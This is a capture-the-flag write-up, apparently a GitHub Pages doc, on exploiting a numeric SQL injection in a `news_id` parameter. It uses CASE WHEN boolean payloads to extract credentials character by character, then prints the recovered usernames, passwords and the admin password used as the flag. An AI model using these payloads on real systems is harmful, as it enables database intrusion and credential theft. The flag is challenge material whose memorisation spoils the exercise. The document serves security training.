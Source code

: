 ```yaml
---
layout: default
title: SQL-injection-Numeric
---
```


Here we can see that when given `?action=news&news_id=1` and `?action=news&news_id=2` we get different results. 

However, what will happen if we'll give something like this
```
?action=news&news_id=2-(CASE WHEN 1=1 THEN 1 ELSE 0 END)
```

In this case, we can play with the condition, and by this way exfiltrate data.

In this example, we query `2-(CASE WHEN 1=1 THEN 1 ELSE 0 END)`, which gives us `1`.
![get 1](./images/SQL-injection-Numeric_get_1.png)

In this example, we query `2-(CASE WHEN 1=0 THEN 1 ELSE 0 END)`, which gives us `2`.
![get 2](./images/SQL-injection-Numeric_get_2.png)


As you can see, we get different results.

This script is very fast, I wrote it using chatGPT, and it do the job.
I simply took the script we used in [SQL-Injection-Blind](./SQL-injection-Blind.md), and adjusted it.
```py
{% include_relative scripts/SQL-injection-Numeric.py %}
```

Notice that we can't use `'`, so I use `unicode` which is like ascii function, and by this way exfiltrate char by char.

After execution, we get this:
```
Extracted credentials snippets:
Cred 0: user1 vUrpg
Cred 1: admin aTlkJYLjcbLmue3
Cred 2: user2 aFjKx7j9d
```
So, the password is:

```
aTlkJYLjcbLmue3
```

**Flag:** **_`aTlkJYLjcbLmue3`_**